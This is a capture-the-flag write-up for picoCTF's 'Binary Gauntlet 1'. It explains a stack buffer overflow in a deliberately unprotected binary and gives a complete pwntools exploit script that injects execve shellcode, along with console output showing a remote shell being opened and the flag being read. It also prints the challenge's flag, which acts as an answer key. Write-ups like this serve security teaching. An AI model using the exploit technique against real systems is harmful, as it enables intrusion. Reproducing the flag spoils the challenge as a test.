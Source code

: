 # Binary Gauntlet 1
Category: Binary Exploitation, 30 points

## Description

> Okay, time for a challenge.

A binary file was attached.

## Solution

This is the follow-up for [Binary Gauntlet 0](Binary_Gauntlet_0.md).

Let's run `checksec` on the file:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/Binary_Gauntlet_1]
└─$ checksec --file=gauntlet
[*] '/media/sf_CTFs/pico/Binary_Gauntlet_1/gauntlet'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

We can see that there are virtually no protections for this program.

Using Ghidra, we can check the decompiled output of the program:

```c
undefined8 main(void)

{
  char local_78 [104];
  char *local_10;
  
  local_10 = (char *)malloc(1000);
  printf("%p\n",local_78);
  fflush(stdout);
  fgets(local_10,1000,stdin);
  local_10[999] = '\0';
  printf(local_10);
  fflush(stdout);
  fgets(local_10,1000,stdin);
  local_10[999] = '\0';
  strcpy(local_78,local_10);
  return 0;
}
```


We can see the the SIGSEGV handler from the previous challenge was removed. We can also see that the local buffer's address is leaked to us. Since NX is disabled according to `checksec` and the stack is executable, if we're able to copy some shellcode to the stack we'll be able to execute it. Getting the shellcode to `local_78` which resides on the stack is easy - we just need to provide it to the second `fgets` which will conveniently copy it to `local_78` using `strcpy`. We just need to make sure that the shellcode doesn't have any NULL pointers since `strcpy` will stop copying the buffer once it hits a NULL pointer.

We already know the address of `local_78` from the leak, so we just need to make sure that the program eventually jumps to it. We can do that by overflowing the stack and overriding the return pointer of `main` so that instead of returning to the function that called it, it will jump to `local_78` instead.

The following script automates the process:

```python
# First, generate a pwntools template using the following command:
#  pwn template --host mercury.picoctf.net --port 32853 ./gauntlet

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX disabled
# PIE:      No PIE (0x400000)
# RWX:      Has RWX segments

def get_overflow_offset():
    # It's problematic to create a core dump on an NTFS file system,
    # so reconfigure core dumps to be created elsewhere
    with open("/proc/sys/kernel/core_pattern") as f:
        core_pattern = f.read()
        if core_pattern.strip() == "core":
            from pathlib import Path
            raise Exception("Please run the following command first:\n"
                            "mkdir -p {0} && "
                            "sudo bash -c 'echo {0}/core_dump > /proc/sys/kernel/core_pattern'"
                            .format(Path.home() / "core"))
    #os.system("echo ~/core/core_dump > /proc/sys/kernel/core_pattern")
    os.system("rm core.* > /dev/null")
    proc = process(exe.path)
    payload = cyclic(150, n = exe.bytes)
    proc.sendline("dummy")
    proc.sendline(payload)
    proc.wait()
    offset = cyclic_find(proc.corefile.fault_addr, n = exe.bytes )
    log.info("Overflow offset: {}".format(offset))
    return offset


overflow_offset = get_overflow_offset()

io = start()

shellcode = shellcraft.sh()
log.info("Shellcode:\n{}".format(shellcode))

buffer_address = int(io.recvlineS(), 16)
log.info(f"Local Buffer address: {hex(buffer_address)}")

log.info("Sending dummy payload")
io.sendline("dummy")

io.recvlineS()

payload = fit({
     0: asm(shellcode),
     overflow_offset: p64(buffer_address)
})

log.info("Sending payload:\n{}".format(hexdump(payload)))
io.sendline(payload)

io.interactive()

```

Running it:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/Binary_Gauntlet_1]
└─$ python3 exploit.py
[*] '/media/sf_CTFs/pico/Binary_Gauntlet_1/gauntlet'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Starting local process '/media/sf_CTFs/pico/Binary_Gauntlet_1/gauntlet': pid 2284
[*] Process '/media/sf_CTFs/pico/Binary_Gauntlet_1/gauntlet' stopped with exit code -11 (SIGSEGV) (pid 2284)
[+] Parsing corefile...: Done
[*] '/media/sf_CTFs/pico/Binary_Gauntlet_1/core.2284'
    Arch:      amd64-64-little
    RIP:       0x40074e
    RSP:       0x7ffe75deb408
    Exe:       '/media/sf_CTFs/pico/Binary_Gauntlet_1/gauntlet' (0x400000)
    Fault:     0x6161616161616170
[*] Overflow offset: 120
[+] Opening connection to mercury.picoctf.net on port 32853: Done
[*] Shellcode:
        /* execve(path='/bin///sh', argv=['sh'], envp=0) */
        /* push b'/bin///sh\x00' */
        push 0x68
        mov rax, 0x732f2f2f6e69622f
        push rax
        mov rdi, rsp
        /* push argument array ['sh\x00'] */
        /* push b'sh\x00' */
        push 0x1010101 ^ 0x6873
        xor dword ptr [rsp], 0x1010101
        xor esi, esi /* 0 */
        push rsi /* null terminate */
        push 8
        pop rsi
        add rsi, rsp
        push rsi /* 'sh\x00' */
        mov rsi, rsp
        xor edx, edx /* 0 */
        /* call execve() */
        push SYS_execve /* 0x3b */
        pop rax
        syscall
[*] Local Buffer address: 0x7ffe4ad0f590
[*] Sending dummy payload
[*] Sending payload:
    00000000  6a 68 48 b8  2f 62 69 6e  2f 2f 2f 73  50 48 89 e7  │jhH·│/bin│///s│PH··│
    00000010  68 72 69 01  01 81 34 24  01 01 01 01  31 f6 56 6a  │hri·│··4$│····│1·Vj│
    00000020  08 5e 48 01  e6 56 48 89  e6 31 d2 6a  3b 58 0f 05  │·^H·│·VH·│·1·j│;X··│
    00000030  6d 61 61 61  6e 61 61 61  6f 61 61 61  70 61 61 61  │maaa│naaa│oaaa│paaa│
    00000040  71 61 61 61  72 61 61 61  73 61 61 61  74 61 61 61  │qaaa│raaa│saaa│taaa│
    00000050  75 61 61 61  76 61 61 61  77 61 61 61  78 61 61 61  │uaaa│vaaa│waaa│xaaa│
    00000060  79 61 61 61  7a 61 61 62  62 61 61 62  63 61 61 62  │yaaa│zaab│baab│caab│
    00000070  64 61 61 62  65 61 61 62  90 f5 d0 4a  fe 7f 00 00  │daab│eaab│···J│····│
    00000080
[*] Switching to interactive mode
$ ls
flag.txt
gauntlet
gauntlet_no_aslr
xinet_startup.sh
$ cat flag.txt
c6e16a1b4182c2801ed657d4c482af88
```

The flag: `c6e16a1b4182c2801ed657d4c482af88`